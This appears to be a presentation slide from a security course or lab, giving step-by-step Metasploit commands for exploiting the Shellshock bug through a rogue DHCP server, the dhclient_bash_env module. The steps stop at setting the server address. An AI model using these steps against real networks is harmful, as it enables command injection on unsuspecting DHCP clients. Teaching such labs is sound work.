

# Exploit Shellshock vulnerability
Exploiting Shellshock using the DHCP service on Metasploit. It’s already installed in Kali.
Use dhclient to find out your DHCP address on terminal
In Metasploit, run ‘search shellshock’. We will use dhclient_bash_env which is used for DHCP Client Bash Environment Variable Code Injection (Shellshock)
use auxiliary/server/dhclient_bash_env
Run ‘info’ to get information
Set up module parameters
show options
set SVRHOST your_DHCP_server_IP